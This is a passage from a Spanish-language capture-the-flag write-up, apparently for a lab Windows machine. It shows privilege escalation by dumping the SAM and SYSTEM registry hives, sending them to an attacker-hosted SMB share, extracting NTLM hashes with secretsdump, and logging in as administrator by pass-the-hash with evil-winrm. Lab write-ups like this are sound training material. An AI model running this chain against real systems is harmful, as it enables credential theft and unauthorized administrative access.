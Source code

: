 ```sh
whoami /priv
```
![Pic]({{ '/assets/img/cicada/10pic.png' | relative_url }}){: .center-image }

Para aprovecharnos de esto podemos copiar o bien la flag del usuario administrator, o copiar los archivos SAM y SYSTEM para tratar de obtener su hash NTLM y ganar acceso por medio de una consola interactiva. Yo haré esta última opción.

```sh
mkdir C:\temp
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```

![Pic]({{ '/assets/img/cicada/11pic.png' | relative_url }}){: .center-image }

Ahora con la utilidad **smbserver.py** de impacket nos transferimos ambos archivos.

```sh
python3 smbserver.py smbFolder $(pwd) -smb2support
```

Y desde la máquina víctima copiamos los siguientes comandos:

```powershell
copy C:\temp\sam \\tu_ip\smbFolder\sam
copy C:\temp\system \\tu_ip\smbFolder\system
```

Con el SAM y SYSTEM ya en nuestra máquina, podemos sacar los hashes de los usuarios con la herramienta **secretsdump.py** de impacket.

```sh
python3 secretsdump.py -sam sam -system system LOCAL
```
![Pic]({{ '/assets/img/cicada/12pic.png' | relative_url }}){: .center-image }

Y ahora con el hash del usuario administrator podemos conectarnos con evil-winrm proporcionando la parte NT.

```sh
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![Pic]({{ '/assets/img/cicada/14pic.png' | relative_url }}){: .center-image }










